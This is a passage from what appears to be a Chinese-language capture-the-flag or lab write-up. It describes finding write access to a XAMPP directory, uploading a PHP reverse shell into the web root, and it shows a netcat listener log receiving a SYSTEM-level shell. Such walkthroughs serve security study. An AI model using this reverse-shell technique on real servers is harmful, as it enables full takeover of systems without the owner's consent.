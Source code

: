    继续往下看发现我们是对整个C:\xampp文件拥有写权限

   ![image-20231122132715758](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311221338551.png)

​		

2. 在` C:\xampp\htdocs`中上传一个windows版本的[reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell)，然后访问获取shell，该shell来自system

   ```
   └─# nc -nvlp 4444
   listening on [any] 4444 ...
   connect to [10.10.16.4] from (UNKNOWN) [10.10.11.241] 15032
   SOCKET: Shell has connected! PID: 7360
   Microsoft Windows [Version 10.0.17763.4974]
   (c) 2018 Microsoft Corporation. All rights reserved.
   
   C:\xampp\htdocs>whoami
   nt authority\system
   ```

   